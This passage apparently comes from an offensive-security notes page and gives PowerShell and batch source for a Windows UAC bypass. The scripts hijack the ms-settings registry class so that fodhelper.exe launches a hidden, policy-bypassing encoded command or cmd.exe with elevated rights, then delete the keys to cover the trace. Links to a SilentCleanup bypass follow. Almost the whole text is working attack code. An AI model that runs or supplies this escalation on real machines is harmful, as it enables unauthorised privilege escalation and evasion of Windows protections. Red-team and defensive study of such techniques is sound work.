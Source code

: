 {% tabs %}
{% tab title="PS" %}
{% code title="fod-ng.ps1" %}
```powershell
function FodNG {
    Param (
        [String]$cmd = "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_CMD>"
    )
	
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue

    New-Item "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Force
	New-ItemProperty -Path "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".snovvcrash" -Force
	
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
    Remove-Item "HKCU:\Software\Classes\.snovvcrash\" -Recurse -Force
}
```
{% endcode %}
{% endtab %}
{% tab title="CMD" %}
{% code title="fod-ng.bat" %}
```bat
reg add HKCU\Software\Classes\Program\Shell\Open\command /f
reg add HKCU\Software\Classes\Program\Shell\Open\command /v DelegateExecute /f
reg add HKCU\Software\Classes\Program\Shell\Open\command /ve /d C:\Windows\System32\cmd.exe /f
reg add HKCU\Software\Classes\ms-settings\CurVer /f
reg add HKCU\Software\Classes\ms-settings\CurVer /ve /d Program /f
C:\Windows\System32\fodhelper.exe
```
{% endcode %}
{% endtab %}
{% endtabs %}




## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)
